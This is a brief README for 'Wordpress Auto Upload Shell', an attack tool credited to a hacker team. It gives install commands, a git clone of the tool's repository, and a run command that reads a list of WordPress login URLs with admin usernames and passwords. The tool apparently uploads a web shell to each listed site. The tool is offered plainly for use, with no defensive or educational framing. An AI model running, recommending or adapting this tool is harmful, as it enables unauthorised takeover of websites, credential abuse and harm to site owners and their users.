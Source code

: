 # Wordpress Auto Upload Shell
# Author
```
Nickname : D4RKSH4D0WS
Team : AnonRoz-Team
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/AnonRoz-Team/wp_auto_upshell
$ cd wp_auto_upshell
$ python2 cek.py list_web.txt
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
